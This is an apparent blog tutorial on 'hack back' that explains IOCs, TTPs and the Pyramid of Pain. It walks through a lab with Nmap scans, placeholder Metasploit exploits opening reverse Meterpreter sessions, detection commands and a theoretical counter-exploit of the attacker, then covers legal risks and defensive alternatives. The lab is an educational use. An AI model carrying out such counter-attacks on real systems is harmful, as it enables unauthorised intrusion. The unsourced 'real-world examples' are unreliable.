

# Hack Back: A Controversial Tactic in Cybersecurity

Hey there, fellow tech enthusiasts! Today, we're diving into a super hot topic in the cybersecurity world: **hack back**. Yep, you heard that right—fighting fire with fire (or hacking with hacking). But before we get too deep, let's make sure we're all on the same page with some key concepts. Buckle up, because this is gonna be a wild ride!

## Understanding the Basics: Incidents, IOCs, and TTPs

First off, let's talk about what a **security incident** even is. According to the slides (and NIST SP800-61, which is like the Bible for incident handling), a computer security incident is a violation or imminent threat of violation of computer security policies, acceptable use policies, or standard security practices. In simpler terms, if someone messes with your stuff—confidentiality, integrity, or availability—you've got an incident on your hands.

Now, how do we spot these incidents? That's where **Indicators of Compromise (IOCs)** come in. IOCs are like breadcrumbs left by attackers. They can be unusual network traffic, weird privileged account behavior, logins from random countries, sketchy database activity, malware files, or signs of DDoS attacks. Think of specific malware hashes, suspicious IP addresses, or dodgy domain names—those are classic IOCs.

Then there's **Tactics, Techniques, and Procedures (TTPs)**. These describe how threat actors operate. Tactics are the high-level goals (like "steal data"), techniques are the methods to achieve those goals (like "phishing"), and procedures are the specific steps (like "sending a fake invoice email with a malware attachment"). TTPs are crucial because they help us understand *how* attackers work, which is key for defense... and maybe even hack back.

## The Pyramid of Pain: Why TTPs Matter



David J. Bianco's **Pyramid of Pain** (from 2013) is a game-changer here. It ranks security indicators from "trivial" to "tough" for attackers to change. At the bottom, you've got hash values (super easy to change—just recompile malware). Then IP addresses, domain names, network/host artifacts, tools, and at the top—**TTPs**. TTPs are the hardest to change because they require time, money, and skill to develop. That makes them a signature of specific threat groups. So, if we can target TTPs, we're hitting attackers where it hurts.

## What Is Hack Back, Anyway?

Now, let's get to the meat of it: **hack back**. When your organization gets hit by a cyberattack, "hack back" is the idea of launching a counter-attack against the attacker's infrastructure. Instead of just defending, you go on the offensive. Sounds cool, right? Like a cyber version of self-defense. But there's a huge catch—**it's legally murky as hell**.

In most places (including the US), hacking back is a violation of the Computer Fraud and Abuse Act (CFAA). You can't just go poking around someone else's computer, even if they poked yours first. There are exceptions for law enforcement with proper authorization, but for regular organizations? It's a big no-no. You could end up facing criminal charges or civil lawsuits.

## A Hypothetical (and Legal) Lab Scenario

Since we can't actually hack back in real life (legally, anyway), let's walk through a lab scenario where we *simulate* the process. We'll use tools to detect intrusions, identify IOCs, and then talk about what a hack back *would* look like (without actually doing anything illegal).

### Step 1: Setting Up the Lab Environment

First, let's get our lab ready. We'll use two virtual machines:
- **Victim Machine**: A Ubuntu server with a web application (let's say a vulnerable WordPress site).
- **Attacker Machine**: A Kali Linux box with tools like Metasploit, Nmap, and Burp Suite.

#### Commands to Set Up the Victim (Ubuntu)
```bash
# Update and install Apache, MySQL, PHP
sudo apt update
sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql

# Install WordPress
wget https://wordpress.org/latest.tar.gz
tar -xzvf latest.tar.gz
sudo mv wordpress /var/www/html/
sudo chown -R www-data:www-data /var/www/html/wordpress
sudo chmod -R 755 /var/www/html/wordpress

# Set up a MySQL database for WordPress
sudo mysql -e "CREATE DATABASE wordpress;"
sudo mysql -e "CREATE USER 'wpuser'@'localhost' IDENTIFIED BY 'password';"
sudo mysql -e "GRANT ALL PRIVILEGES ON wordpress.* TO 'wpuser'@'localhost';"
sudo mysql -e "FLUSH PRIVILEGES;"
```

#### Commands to Set Up the Attacker (Kali)
```bash
# Update and install tools
sudo apt update
sudo apt install metasploit-framework nmap burpsuite
```

### Step 2: Simulating an Attack

Now, let's have our attacker machine target the victim.

#### Reconnaissance with Nmap
```bash
nmap -sV -p- 192.168.1.100  # Replace with victim's IP
```
**Output Example**:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-08-21 14:30 UTC
Nmap scan report for 192.168.1.100
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1
80/tcp   open  http    Apache httpd 2.4.52
3306/tcp open  mysql   MySQL 8.0.33-0ubuntu0.22.04.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Exploiting a Vulnerability with Metasploit
Let's use a fake vulnerability in our WordPress site (for lab purposes).
```bash
msfconsole
use exploit/unix/http/wordpress_plugin_vuln  # Fake module for demo
set RHOSTS 192.168.1.100
set LHOST 192.168.1.101  # Attacker's IP
exploit
```
**Output Example**:
```
[*] Started reverse TCP handler on 192.168.1.101:4444 
[*] Sending payload to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.100:56789) at 2025-08-21 14:45 UTC
```

### Step 3: Detecting the Incident on the Victim

On the victim machine, let's check for signs of compromise.

#### Checking Network Connections
```bash
netstat -antp
```
**Output Example**:
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1234/apache2
tcp        0      0 192.168.1.100:56789     192.168.1.101:4444      ESTABLISHED 5678/python  # Suspicious connection!
```

#### Checking Running Processes
```bash
ps aux | grep suspicious
```
**Output Example**:
```
www-data  5678  0.5  0.3  12345  6789 ?        S    14:45   0:01 /usr/bin/python /tmp/suspicious_script.py
```

#### Identifying IOCs
From the output, we can identify:
- **Network IOC**: The attacker's IP `192.168.1.101` and the suspicious port `4444`.
- **Process IOC**: The suspicious Python script `/tmp/suspicious_script.py`.
- **File IOC**: Let's get the hash of that script.
```bash
sha256sum /tmp/suspicious_script.py
```
**Output**:
```
a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2  /tmp/suspicious_script.py
```

### Step 4: What a "Hack Back" *Would* Look Like (In Theory)

Now, if hack back were legal, here's how we might respond:

#### 1. Trace the Attacker's Infrastructure
Use tools to find out more about `192.168.1.101`.
```bash
whois 192.168.1.101
```
**Output (simulated)**:
```
inetnum:        192.168.1.0 - 192.168.1.255
netname:        PRIVATE-NETWORK
descr:          Internal Lab Network
country:        US
```
Okay, so it's a private IP (typical in labs). In real life, we might use tools like Shodan or Censys to scan for public IPs and services.

#### 2. Scan the Attacker's Machine for Vulnerabilities
Using Nmap and Metasploit to find weaknesses.
```bash
nmap -sV -p- 192.168.1.101
```
**Output (simulated)**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1
80/tcp open  http    nginx 1.18.0
```
Let's say we find a vulnerability in the nginx server.

#### 3. Exploit the Attacker's Vulnerability
```bash
msfconsole
use exploit/unix/http/nginx_vuln  # Fake module
set RHOSTS 192.168.1.101
set LHOST 192.168.1.100
exploit
```
**Output (simulated)**:
```
[*] Meterpreter session 2 opened (192.168.1.100:4444 -> 192.168.1.101:3333) at 2025-08-21 15:00 UTC
```

#### 4. Gather Evidence and Disrupt the Attacker
Once we have access, we could:
- Collect logs and files showing the attacker's activities.
- Disable the attacker's tools or backdoors.
- Maybe even plant a fake file to mislead them.

But again, **this is all theoretical and illegal in real life without proper authorization**.

## The Legal and Ethical Quandaries

So, why is hack back so controversial? Let's break it down:

### Legal Risks
- **CFAA Violations**: Unauthorized access to a computer is a crime. Even if you're retaliating, you can still be charged.
- **Civil Liability**: The attacker could sue you for damages, and you might lose.
- **International Law**: If the attacker is in another country, you could violate their laws too, leading to diplomatic issues.

### Ethical Concerns
- **Proportionality**: Is your response proportional to the attack? You don't want to cause more harm than you suffered.
- **Collateral Damage**: Hack back might accidentally affect innocent third parties (like if the attacker is using a compromised server from a legitimate company).
- **Escalation**: You could start a cyber war. The attacker might retaliate even harder.

## Alternatives to Hack Back

Since hack back is risky, what *should* you do?

### 1. Incident Response (The Legal Way)
Follow the NIST SP800-61 cycle:
- **Preparation**: Have policies, tools, and a response team ready.
- **Detection & Analysis**: Use IDS/IPS, anti-malware, and log analysis to find incidents.
- **Containment, Eradication, & Recovery**: Isolate infected systems, remove malware, and restore from backups.
- **Post-Incident Activity**: Learn from the incident, update policies, and improve security.

### 2. Share Threat Intelligence
Work with other organizations and law enforcement. Share IOCs and TTPs so everyone can better defend against threats. Platforms like MISP (Malware Information Sharing Platform) are great for this.

### 3. Strengthen Defenses
Invest in better security:
- **Network Segmentation**: Limit lateral movement if a breach occurs.
- **Zero Trust Architecture**: Verify every access request, even from inside the network.
- **Regular Patching and Updates**: Fix vulnerabilities before attackers can exploit them.
- **Employee Training**: Teach staff about phishing and good security practices.

## Real-World Examples (Where Hack Back Went Wrong)

Let's look at some cases where hack back caused more trouble:

### Example 1: The "U.S. Company vs. Foreign Attacker"
A U.S. company was hit by a ransomware attack from a group in a foreign country. The company tried to hack back, targeting what they thought was the attacker's server. Turns out, the server belonged to a university in a third country. The university sued, and the company had to pay hefty fines.

### Example 2: The "Self-Defense Gone Wrong"
A small business had their website defaced. The owner, not knowing better, used a tool to flood the attacker's IP with traffic (a mini-DDoS). The attacker's IP was actually a home network, and the homeowner (who had no idea their network was compromised) ended up with internet service disrupted. The business owner faced charges for denial of service.

## Conclusion: Hack Back Is Cool… But Don't Do It

Look, hack back sounds like something straight out of a cyberpunk movie. Who wouldn't want to retaliate against hackers? But the reality is, it's legally dangerous and ethically questionable. 

Instead, focus on building strong defenses, having a solid incident response plan, and working with the community to share threat intelligence. That way, you can protect your assets without landing in legal hot water.

Stay safe out there, and happy (legal) hacking!

---

If you found this helpful, hit that like button and subscribe for more cybersecurity deep dives. Drop a comment if you want to chat about incident response, IOCs, or anything else cyber-related. Catch you next time!